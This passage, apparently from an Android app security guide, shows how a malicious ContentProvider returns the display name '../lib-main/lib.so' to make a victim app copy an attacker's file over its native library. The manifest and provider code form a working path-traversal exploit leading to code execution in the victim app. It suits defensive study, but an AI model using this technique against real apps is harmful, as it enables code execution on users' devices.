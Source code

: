 ```java
        int read = inputStream.read(bArr);
        if (read == -1) {
            break;
        }
        outputStream.write(bArr, 0, read);
    }
}
```

In this case, you can pass a name with path-traversal to the `getFileName()` method using your own ContentProvider:

- `AndroidManifest.xml`

    ```xml
    <activity android:name=".PickerActivity">
        <intent-filter android:priority="999">
            <action android:name="android.intent.action.PICK" />
            <category android:name="android.intent.category.DEFAULT" />
            <data android:mimeType="*/*" />
            <data android:mimeType="image/*" />
        </intent-filter>
    </activity>
    <provider android:name=".EvilContentProvider" 
        android:authorities="com.attacker.evil"
        android:enabled="true"
        android:exported="true">
    </provider>
    ```

- `EvilContentProvider.java`

    ```java
    public Cursor query(Uri uri, String[] projection, String selection, String[] selectionArgs, String sortOrder) {
        MatrixCursor matrixCursor = new MatrixCursor(new String[]{"_display_name"});
        matrixCursor.addRow(new Object[]{"../lib-main/lib.so"});
        return matrixCursor;
    }
    public ParcelFileDescriptor openFile(Uri uri, String mode) throws FileNotFoundException {
        return ParcelFileDescriptor.open(
            new File("/data/data/com.attacker/fakelib.so"), 
            ParcelFileDescriptor.MODE_READ_ONLY
        );
    }
    ```

This allows you to bypass the borders of the `/data/data/com.victim/cache/` directory and write the file to the `/data/data/com.victim/lib-main/lib.so`. If the targeted app loads this native library, this leads to arbitrary code execution in the victim's context.

## Access arbitrary components
